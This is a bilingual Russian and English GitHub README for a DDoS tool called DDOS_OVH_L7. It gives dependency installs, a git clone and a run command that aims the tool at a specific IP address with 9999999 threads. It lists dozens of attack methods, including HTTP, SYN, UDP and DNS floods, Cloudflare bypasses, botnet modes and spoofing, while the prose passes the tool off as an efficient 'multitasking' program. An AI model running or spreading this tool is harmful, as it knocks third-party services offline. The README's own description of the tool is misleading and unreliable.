 # DDOS_OVH_L7

termux kali linux DDOS L7
🚀 Привет, сообщество GitHub! 🚀

Рад представить вам мой последний проект - программу, которая выполняет многозадачные операции с учетом эффективности на первом месте! 🎯

Основные особенности проекта:
📌 Многозадачность: Моя программа способна обрабатывать множество задач одновременно, что позволяет вам более эффективно управлять ресурсами.
💻 Максимальное использование ЦПУ и оперативной памяти: Я максимизировал вычислительную мощность, чтобы обеспечить вам скорость и производительность. 🚄
🌐 Минимальное потребление интернет-трафика: Моя программа снижает нагрузку на вашу сеть, позволяя вам экономить драгоценный интернет-трафик.

Для запуска программы, сначала убедитесь, что у вас установлены необходимые библиотеки и пакеты. Выполните следующие команды в вашем терминале для их установки:

```
pip install requests
pip install requests_toolbelt
pip install socks
pip install PySocks
pip install httpx
pip install scapy
pkg install python-cryptography
pip install aiohttp
pip install ntplib
git clone https://github.com/MaksimBoykoMusic/DDOS_OVH_L7.git
cd DDOS_OVH_L7
Run Python Script: python DDOS_OVH.py --url http://37.187.56.77 --method OVH GET --threads 9999999
```

Доступные методы 'GET', 'POST', 'HEAD', 'HTTP-SYN', 'HTTP-SYN-TPC', 'OVH', 'OVH BOT', 'DGB', 'AVB', 'CFBUAM', 'BYPASS', 'CFB', 'GSB', 'uambypass', 'BOTNET_V1','BOTNET_V2', 'SYN', 'AMP', 'socks_cflow', 'TCP_ATTACK', 'CFSOC', 'BOMB', 'ovh2', 'STRESS', 'Connection', 'TLSv2', 'cc', 'ntp_mem','ICMPFlood','UDPFlood','udp_flood','attackSKY','RHEX','NULL','COOKIES','Launchspoof','attackbypass','LaunchCFPRO','dgb_solver','http_flood','PPS','dns_flood','BOT_V1','https_spoof','KILLER'
Я уже не могу дождаться, когда вы попробуете эту программу и поделитесь своими впечатлениями. Приглашаю вас внести свой вклад и присоединиться к этому захватывающему проекту! 💪

🚀 Hello, GitHub community! 🚀

I'm excited to introduce my latest project - a program that performs multitasking operations with efficiency as a top priority! 🎯

Key features of the project:
📌 Multitasking: My program is capable of handling multiple tasks simultaneously, allowing you to manage resources more effectively.
💻 Maximum CPU and memory utilization: I've maximized computational power to provide you with speed and performance. 🚄
🌐 Minimal internet traffic consumption: My program reduces the load on your network, helping you save precious internet bandwidth.

To run the program, first ensure that you have the required libraries and packages installed. Execute the following commands in your terminal to install them:

```
pip install requests
pip install requests_toolbelt
pip install socks
pip install PySocks
pip install httpx
pip install scapy
pkg install python-cryptography
pip install aiohttp
pip install ntplib
git clone https://github.com/MaksimBoykoMusic/DDOS_OVH_L7.git
cd DDOS_OVH_L7
Run Python Script: python DDOS_OVH.py --url http://37.187.56.77 --method OVH GET --threads 9999999
```

Some other packages, such as socks, ipaddress, and ntplib, may already be installed as they are often part of the standard Python library.

After installing all the necessary dependencies, you can run the program using the following command

```
Available methods include 'GET,' 'POST,' 'HEAD,' 'HTTP-SYN,' 'HTTP-SYN-TPC,' 'OVH,' 'OVH BOT,' 'DGB,' 'AVB,' 'CFBUAM,' 'BYPASS,' 'CFB,' 'GSB,' 'uambypass,' 'BOTNET_V1,' 'BOTNET_V2,' 'SYN,' 'AMP,' 'socks_cflow,' 'TCP_ATTACK,' 'CFSOC,' 'BOMB,' 'ovh2,' 'STRESS,' 'Connection,' 'TLSv2,' 'cc,' 'ntp_mem,' 'ICMPFlood,' 'UDPFlood,' 'udp_flood,' 'attackSKY,' 'RHEX,' 'NULL,' 'COOKIES,' 'Launchspoof,' 'attackbypass,' 'LaunchCFPRO,' 'dgb_solver,' 'http_flood,' 'PPS,' 'dns_flood,' 'BOT_V1,' 'https_spoof,' 'KILLER.'
```

I can't wait for you to try out this program and share your feedback. I invite you to contribute and be a part of this exciting project! 💪

```

```
